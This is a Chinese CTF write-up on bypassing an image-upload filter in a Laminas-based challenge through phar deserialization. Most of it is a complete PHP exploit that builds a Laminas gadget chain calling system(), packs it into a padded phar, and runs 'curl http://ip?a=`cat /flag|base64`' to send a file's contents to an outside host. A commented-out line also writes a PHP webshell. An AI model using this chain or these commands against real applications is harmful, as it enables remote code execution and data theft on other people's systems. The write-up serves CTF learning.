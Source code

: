 题目是给了源码的：

根据官方手册:https://laminas.org.cn/的说明,该文件是作者写的路由

![image-20220322191638312](https://gitee.com/yyssllz/pic/raw/master/image-20220322191638312.png)



粗略的看了一下代码，发现只允许上传图片，但是过滤写的太明显了

![image-20220322192138547](https://gitee.com/yyssllz/pic/raw/master/image-20220322192138547.png)



这种一看就是phar反序列化绕过的过滤，那么看看触发点，给的也很明显，该imgpath是自由可控的，所以直接可以写进去

![image-20220322192207411](https://gitee.com/yyssllz/pic/raw/master/image-20220322192207411.png)

链子可以直接用这个打：https://xz.aliyun.com/t/8975#toc-7

```php
   if(in_array($base,$this->white_list)){   //白名单限制
                    $cont = file_get_contents($data["image-file"]["tmp_name"]);
                    if (preg_match("/<\?|php|HALT\_COMPILER/i", $cont )) {
                        die("Not This");
                    }
                    if($data["image-file"]["size"]<3000){
                        die("The picture size must be more than 3kb");
                    }
                    $img_path = realpath(getcwd()).'/public/img/'.md5($data["image-file"]["name"]).$base;
```

但是需要绕过，前者的绕过可以用gzip压缩进行绕过，而大小的话可以通过

```php
$phar->addFromString
```

写入没有意义的字符串来增大，因为我们要知道，phar反序列化实际上是通过篡改了stub的文件头，而phar文件的本意是压缩php文件，所以我们是可以写入无用的数据来填充的，那么稍微改一下就可以拼凑出来exp：

```php
<?php

namespace Laminas\View\Resolver{
    class TemplateMapResolver{
        protected $map = ["setBody"=>"system"];
    }
}
namespace Laminas\View\Renderer{
    class PhpRenderer{
        private $__helpers;
        function __construct(){
            $this->__helpers = new \Laminas\View\Resolver\TemplateMapResolver();
        }
    }
}


namespace Laminas\Log\Writer{
    abstract class AbstractWriter{}

    class Mail extends AbstractWriter{
//        protected $eventsToMail = ["echo PD9waHAgZXZhbCgkX1BPU1RbMF0pOw==|base64 -d >public/img/1.php"];
        //这里由于远程的设置没办法访问到文件
        protected $eventsToMail = ["curl http://ip?a=`cat /flag|base64`"];
        protected $subjectPrependText = null;
        protected $mail;
        function __construct(){
            $this->mail = new \Laminas\View\Renderer\PhpRenderer();
        }
    }
}

namespace Laminas\Log{
    class Logger{
        protected $writers;
        function __construct(){
            $this->writers = [new \Laminas\Log\Writer\Mail()];
        }
    }
}


namespace{
    $a = new \Laminas\Log\Logger();
    echo urlencode(serialize($a));
    unserialize(serialize($a));
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = $a;
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", str_repeat("wuhuhuhuhuhw",999999)); //添加要压缩的文件
//签名自动计算
    $phar->stopBuffering();
//    echo base64_encode(serialize(new Logger()));
}



```

这样就可以生产phar了，执行如下：

![image-20220322192546588](https://gitee.com/yyssllz/pic/raw/master/image-20220322192546588.png)



上传文件：

![image-20220322192647021](https://gitee.com/yyssllz/pic/raw/master/image-20220322192647021.png)



触发即可得到flag

![image-20220322192653130](https://gitee.com/yyssllz/pic/raw/master/image-20220322192653130.png)